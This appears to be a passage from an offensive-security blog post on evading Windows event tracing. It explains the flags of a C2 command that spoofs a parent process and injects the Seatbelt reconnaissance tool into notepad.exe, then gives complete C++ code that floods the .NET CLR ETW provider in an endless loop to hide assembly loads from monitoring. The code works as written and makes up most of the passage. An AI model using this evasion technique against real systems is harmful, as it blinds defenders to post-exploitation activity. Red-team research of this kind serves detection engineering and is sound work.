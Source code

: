 * `--ppid 4632`: Specifies the parent process ID (PPID) to spoof, making it appear as though the command is being run by the process with ID 4632 (explorer.exe, previously obtained by running `ps`).
* `--process notepad.exe`: Indicates that the command should be injected into the Notepad process.
* `--loot`: Enables looting, which allows for the collection of output files.
* `--name seatbelt`: Sets the name for the executed assembly in logs and output.

If we examine the Notepad process using Process Hacker, we can see the .NET assemblies loaded into the process. Among these, we can easily identify the 'Seatbelt' assembly being loaded.

<img src="{{ site.url }}{{ site.baseurl }}/images/2024-06-30_09_52_06.png" alt="">

What happens if we flood the CLR provider before running the `execute-assembly`? Let's find out.

First, we need to obtain the GUID of the CLR provider. We will use EtwExplorer by Pavel Yosifovich to do this.

<img src="{{ site.url }}{{ site.baseurl }}/images/2024-06-30_10_15_33.png" alt="">

```
#include <windows.h>
#include <evntprov.h>
#include <iostream>
#include <tchar.h>

void breakETW_Forever() {
    DWORD status = ERROR_SUCCESS;
    REGHANDLE RegistrationHandle = NULL;
    const GUID ProviderGuid = { 0x230d3ce1, 0xbccc, 0x124e, {0x93, 0x1b, 0xd9, 0xcc, 0x2e, 0xee, 0x27, 0xe4} }; //.NET Common Language Runtime

    std::cout << "Starting to register and unregister events continuously..." << std::endl;

    while (true) {
        int count = 0;

        while (count < 2048) {
            status = EventRegister(&ProviderGuid, NULL, NULL, &RegistrationHandle);
            if (status != ERROR_SUCCESS) {
                std::cerr << "EventRegister failed with error code " << status << ", continuing..." << std::endl;
            }
            else {
                EventUnregister(RegistrationHandle);
            }
            count++;
        }
    }
}

int main() {
    breakETW_Forever();
    return 0;
}
```
